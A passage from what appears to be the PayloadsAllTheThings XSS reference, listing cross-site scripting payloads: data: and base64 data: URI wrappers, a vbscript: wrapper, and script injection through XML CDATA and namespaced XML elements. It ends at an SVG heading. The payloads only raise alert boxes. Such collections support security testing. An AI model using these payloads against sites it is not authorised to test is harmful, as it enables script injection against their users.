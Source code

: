 ### Wrapper data

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#wrapper-data)

```js
data:text/html,<script>alert(0)</script>
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

### Wrapper vbscript

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#wrapper-vbscript)

only IE

```js
vbscript:msgbox("XSS")
```

## XSS in Files

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-files)

**NOTE:**Â The XML CDATA section is used here so that the JavaScript payload will not be treated as XML markup.

```xml
<name>
  <value><![CDATA[<script>confirm(document.domain)</script>]]></value>
</name>
```

### XSS in XML

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-xml)

```xml
<html>
<head></head>
<body>
<something:script xmlns:something="http://www.w3.org/1999/xhtml">alert(1)</something:script>
</body>
</html>
```

### XSS in SVG

[](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#xss-in-svg)

Simple script. Codename: green triangle
